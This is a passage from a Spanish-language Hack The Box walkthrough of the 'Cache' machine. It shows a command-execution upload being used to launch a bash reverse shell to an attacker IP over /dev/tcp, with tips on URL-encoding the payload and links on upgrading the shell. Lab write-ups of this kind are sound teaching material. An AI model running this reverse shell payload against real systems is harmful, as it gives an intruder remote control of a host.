 ![burpuploadfile](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cache/burpuploadfile.png)

En el contenido simplemente recibimos una petición get y lo que sea, será ejecutado en el sistema. Mandemos una Reverse Shell a ver... Ya saben, es necesario que pasemos a URL encode nuestra petición, ya que probablemente el navegador no haga nada si le pasamos por ejemplo:

```php
xmd=?bash -c 'bash -i >& /dev/tcp/10.10.15.21/4433 0>&1'
```

No hará nada, pensaremos que está mal y no, solo debemos pasarla a URL encode y quedaría como en la imagen (:

![bashcurlrevshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/cache/bashcurlrevshell.png)

La Shell que tenemos no es completamente interactiva, por lo tanto debemos darle un tratamiento a la tty, algunos links donde se explica.

* [Convertir a una shell completamente interactiva](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
* [Resumido y facil (Gracias s4vitar)](https://www.youtube.com/watch?v=amKkzk-yP14&t=953)
